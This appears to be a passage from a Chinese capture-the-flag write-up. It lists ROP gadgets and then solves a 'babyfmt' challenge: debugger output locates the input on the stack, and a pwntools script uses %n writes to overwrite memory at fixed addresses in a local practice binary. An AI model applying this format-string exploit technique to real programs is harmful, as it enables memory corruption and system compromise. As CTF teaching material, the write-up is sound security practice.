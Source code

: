 ```shell
0x000000000040079b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040079f : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400608 : pop rbp ; ret
0x00000000004007a3 : pop rdi ; ret
0x00000000004007a1 : pop rsi ; pop r15 ; ret
0x000000000040079d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400546 : ret
0x000000000040053d : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x00000000004007b5 : sub esp, 8 ; add rsp, 8 ; ret
0x00000000004007b4 : sub rsp, 8 ; add rsp, 8 ; ret

```



### babyfmt

首先要检查一下我们输入的字符串在栈上的位置

```python
stack 30
00:0000│ esp 0xff983b40 —▸ 0xff983b68 —▸ 0x804c044 ◂— 0x602583a0
01:0004│     0xff983b44 —▸ 0xff983b68 —▸ 0x804c044 ◂— 0x602583a0
02:0008│     0xff983b48 ◂— 0x63 /* 'c' */
03:000c│     0xff983b4c ◂— 0x0
04:0010│     0xff983b50 —▸ 0xf7fc8a9c —▸ 0xf7f9b3e0 —▸ 0xf7fc8940 ◂— 0x0
05:0014│     0xff983b54 ◂— 0x3
06:0018│     0xff983b58 —▸ 0xf7f9b410 —▸ 0x804837f ◂— 'GLIBC_2.0'
07:001c│     0xff983b5c ◂— 0x1
08:0020│     0xff983b60 ◂— 0x0
09:0024│     0xff983b64 ◂— 0x1
0a:0028│ eax 0xff983b68 —▸ 0x804c044 ◂— 0x602583a0
0b:002c│     0xff983b6c —▸ 0x804c045 ◂— 0x602583

```

可以很明显地看出 eax 指向的地方就是我们的输入，相对于格式化第一个参数的偏移是10，这时候就能利用 %n 来任意值写入了

```python
  1 from pwn import *
  2 
  3 sh = process("./babyfmt")
  4 
  5 payload = p32(0x0804C044)+p32(0x804c045)+p32(0x804c046)+p32(0x804c047)
  6 payload += b'%10$n%11$n%12$n%13$n'
  7 
  8 sh.sendline(payload)
  9 # 0x10101010  4 * len(p32()) = 0x10
 10 sh.sendline(str(0x10101010))
 11 
 12 sh.interactive()
```


